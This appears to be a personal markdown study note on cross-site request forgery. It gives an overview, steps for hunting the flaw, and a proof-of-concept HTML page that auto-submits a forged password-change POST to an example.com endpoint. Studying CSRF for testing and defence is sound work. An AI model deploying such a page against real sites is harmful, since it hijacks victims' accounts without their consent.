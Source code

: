 # Cross-Sire Request Forgery Overview

CSRF is a client-side technique used to attack other users of a web application

* Allows attackers to send HTTP requests that pretend to come from the victim in order to carry out unwanted actions on their behalf
* CSRF attacks usually target state-changing requests instead of requests that reveal sensitive information since they wouldn't be able ti read the response to the forged requests sent during an CSRF attack
* Can be used to trigger injection vulnerabilities (*XSS*, *Command injections*, *etc.*)

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Hunting for CSRF

## Step 1: Spot State-Changing Actions

* Search for any activity within a web application for any activity that alters data

## Step 2: Look for a Lack of CSRF Protections

* Intercept the requests for any activity that alters data
* CSRF tokens can come in many forms besides POST body parameters

## Step 3: Confirm the Vulnerability

* You can confirm the vulnerability by crafting a malicious HTML page and visit that page to see if the action has executed

```HTML
<html>
    <form method="POST" action="https://email.example.com/password_change" id="csrf_form">
        <input type="text" name="new_password" value="ab123">
        <input type="submit" value="Submit">
    </form>
    <script>document.getElementById("csrf_form").submit();</script>
</html>
```
```Text
POST /password_change
Host: email.example.com
Cookie: session_cookie=<SESSION_COOKIE>

(POST request body)
new_password=abc123
```

